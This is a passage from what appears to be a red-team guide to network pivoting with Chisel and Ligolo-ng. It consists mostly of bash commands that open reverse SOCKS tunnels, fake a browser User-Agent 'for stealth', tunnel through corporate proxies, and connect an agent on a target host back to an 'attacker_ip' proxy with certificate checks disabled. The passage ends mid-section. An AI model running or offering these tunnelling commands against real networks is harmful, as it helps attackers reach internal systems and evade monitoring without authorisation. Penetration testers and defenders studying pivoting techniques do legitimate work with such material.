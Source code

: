 ```bash
```

### 3.3 Advanced Chisel Configurations

```bash
# Connection through corporate proxies
chisel client --auth user:pass --proxy https://corp-proxy:8080 server_ip:8080 R:socks

# Fingerprint verification for security
chisel client --fingerprint xx:xx:xx:xx --auth user:pass server_ip:8080 R:socks

# Keepalive for unstable connections
chisel client --keepalive 10s --max-retry-count 5 server_ip:8080 R:socks

# Custom headers for stealth
chisel client --header "User-Agent: Mozilla/5.0" server_ip:8080 R:socks

# IPv6 support
chisel client --auth user:pass [::1]:8080 R:socks

# Compression enabled
chisel client --auth user:pass server_ip:8080 R:socks --compression
```

## 4. Ligolo-ng: Transparent Network Tunneling

:::note
The following examples require both Ligolo-ng proxy and agent binaries to be compiled and accessible on the attacker and target hosts. IP addresses, TUN interface names, and certificate files should be adjusted as per your lab or operational setup.
:::

Ligolo-ng implements a sophisticated userland networking stack through TUN interface manipulation, providing transparent network access without SOCKS proxy requirements.

### 4.1 Infrastructure Setup and Configuration

```bash
# Proxy server preparation (Linux)
sudo ip tuntap add dev ligolo mode tun
sudo ip link set ligolo up
sudo ip route add 192.168.56.0/24 dev ligolo

# Proxy server with custom TUN interface
sudo ip tuntap add dev tun_pivot mode tun
sudo ip link set tun_pivot up
sudo ip addr add 192.168.255.1/24 dev tun_pivot

# Start proxy with self-signed certificate
./proxy -selfcert

# Start proxy with custom certificate
./proxy -certfile server.crt -keyfile server.key

# Proxy with custom listening address
./proxy -laddr 0.0.0.0:11601 -selfcert

# Agent connection establishment
./agent -connect attacker_ip:11601 -ignore-cert

# Agent with retry mechanism
./agent -connect attacker_ip:11601 -ignore-cert -retry

# Bind agent (listening mode)
```